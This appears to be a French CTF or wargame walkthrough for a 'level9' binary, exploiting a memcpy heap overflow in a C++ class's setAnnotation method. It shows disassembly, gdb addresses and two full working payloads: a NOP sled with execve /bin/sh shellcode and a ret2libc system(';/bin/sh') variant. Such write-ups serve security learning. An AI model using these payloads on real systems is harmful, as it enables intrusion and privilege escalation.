 Cette fois, le programme est en c++, avec une classe N. On remarque qu'il n'y a pas d'appel à /bin/sh, on suppose qu'on va devoir injecter un shellcode. Il y a aussi l'utilisation de la fonction memcpy dans la fonction setAnnotation de la classe N, qui va permettre de faire un overflow.

Le seul problème est que le pointeur est déférencé deux fois au moment du return d'EIP:
```
08048677 e8 92 00        CALL       N::setAnnotation                                 undefined setAnnotation(N * this
            00 00
0804867c 8b 44 24 10     MOV        nClass2,dword ptr [ESP + 0x10]=>local_20
08048680 8b 00           MOV        nClass2,dword ptr [nClass2]
08048682 8b 10           MOV        EDX,dword ptr [nClass2]
08048684 8b 44 24 14     MOV        nClass2,dword ptr [ESP + 0x14]=>local_1c
08048688 89 44 24 04     MOV        dword ptr [ESP + 0x4]=>local_2c,nClass2
0804868c 8b 44 24 10     MOV        nClass2,dword ptr [ESP + 0x10]=>local_20
08048690 89 04 24        MOV        dword ptr [ESP]=>local_30,nClass2
08048693 ff d2           CALL       EDX

```
Ce qui équivaut globalement à la syntaxe `(nPointer2->*nPointer2->operatorFunctionPointer)(*nClass1)`. 

En conséquence, le code va se rendre sur la première adresse pointée par EIP, puis prendre l'adresse à ce nouvel emplacement, se rendre dessus, ET uniquement à partir de là reprendre l'exécution du code. Donc il va falloir utiliser deux adresses mémoires.

Il faut donc trouver l'adresse mémoire de la string. On ouvre level9 dans gdb, on met un breakpoint juste après l'appel à setAnnotation, puis on print $eax. On voit que c'est 0x0804a00c.

L'adresse qui va override EIP en premier doit se trouver après 108 chars. On fait pointer sur l'adresse qu'on vient de trouver. Ensuite, on peut faire pointer sur la zone entre buffer[4] et buffer[107], ou bien pointer après la string. Faire après nous donne plus d'espace pour faire une longue nopsled donc on part sur après. Si on regarde $eax après avoir rempli le buffer de A, on peut voir que les addresses à partir de 0x0804a07c peuvent être ciblées. On part sur 0x0804a18c pour être large.

Donc le payload final ressemble à

`./level9 $(python -c "print '\x8c\xa1\x04\x08' + 'A' * 104 + '\x0c\xa0\x04\x08' + '\x90' * 500 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'")`

A noter que:
Nous pouvons aussi utiliser un ret2libc.
On va utiliser un appel a system avec comme argument /bin/sh

Pour ce faire nous avons besoin de la localisation de system, on la trouve avec gdb
`0xb7d86060 <system>`

maintenant nous avons besoin de la taille de notre buffer, celui ci fait 108 caracteres
et pour finir nous avons besoin de l'adresse renvoyer par memcpy
grace a ltrace on trouve 0x0804a00c

Avec ceci nous pouvons donc construire notre exploit.

Adresse de system + random caractere doit faire un total de 108 carac
puis on rajoute l'adresse de notre chaine + ";/bin/sh"
Notre buffer ressemblera donc exactement a:

`'\x60\x60\xd8\xb7' + 'A'*104 + '\x0c\xa0\x04\x08' + ';/bin/sh'`

A note l'importance du ; avant le /bin/sh car sinon la commande ne sera pas compris et le shell ne sera pas executer

`./level9 $(python -c "print('\x60\x60\xd8\xb7' + 'A'*104 + '\x0c\xa0\x04\x08' + ';/bin/sh')")`
